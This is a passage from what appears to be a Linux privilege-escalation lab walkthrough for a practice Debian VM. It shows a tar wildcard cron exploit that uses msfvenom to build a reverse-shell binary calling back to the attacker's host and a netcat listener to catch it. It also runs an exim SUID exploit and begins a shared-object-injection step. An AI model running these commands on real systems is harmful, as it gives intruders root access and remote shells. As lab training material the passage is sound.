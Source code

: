 ```

```cat /usr/local/bin/compress.sh ```

* Note that the tar command is being run with a wildcard (*) in your home directory.

* Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

* Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf ```

* Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```chmod +x /home/user/shell.elf ```

* Create these two files in /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

* Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```nc -nvlp 4444 ```


## 10. SUID / SGID Executables - Known Exploits 

* Find all the SUID/SGID executables on the Debian VM:

```find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null ```

* Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at /home/user/tools/suid/exim/cve-2016-1531.sh.

* Run the exploit script to gain a root shell:

```/home/user/tools/suid/exim/cve-2016-1531.sh ```


## 11. SUID / SGID Executables - Shared Object Injection 

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

* First, execute the file and note that currently it displays a progress bar before exiting:

```/usr/local/bin/suid-so ```

* Run strace on the file and search the output for open/access calls and for "no such file" errors:

strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

```